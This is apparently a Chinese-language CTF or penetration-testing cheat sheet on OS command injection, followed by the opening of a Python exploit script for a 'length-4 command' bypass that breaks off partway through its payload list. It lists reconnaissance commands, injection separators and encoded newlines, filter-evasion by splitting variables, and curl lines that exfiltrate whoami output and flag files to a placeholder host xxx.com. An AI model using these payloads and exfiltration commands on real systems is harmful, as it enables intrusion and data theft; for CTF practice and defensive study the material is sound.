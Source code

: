 | Purpose of command | Linux | Windows |
| ------------------ | ----- | ------- |
|     Name of current user               |   whoami    |   whoami      |
|Operating system	|uname -a|	ver
|Network configuration	|ifconfig	|ipconfig /all
|Network connections|	netstat -an|	netstat -an
|Running processes|	ps -ef|	tasklist

- 命令连接
```python
` & || | $()
#换行
%0A
#回车
%0d
#局部变量
a=l;b=s;$a$b
#curl外带
curl `whoami`.xxx.com
curl http://xxx.com -d@/flag
curl http://xxx.com --post-data $(/readflag)

```
- 使用`\`换行符
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230530132922.png)

长度4命令绕过
##### script
```python
#-*-coding:utf8-*-
import requests as r
from time import sleep
import random
import hashlib
target = 'http://172.28.149.62/'

 

 

 

cmd = target + '?1='
 
# payload某些位置的可选字符
pos0 = random.choice('efgh')
pos1 = random.choice('hkpq')
pos2 = 'x'  # 随意选择字符
 
payload = [
    '>dir',
    # 创建名为 dir 的文件
 
    '>%s\>' % pos0,
    # 假设pos0选择 f , 创建名为 f> 的文件
 
    '>%st-' % pos1,
    # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
    # 因为alphabetical序中t>s
 
    '>sl',
```
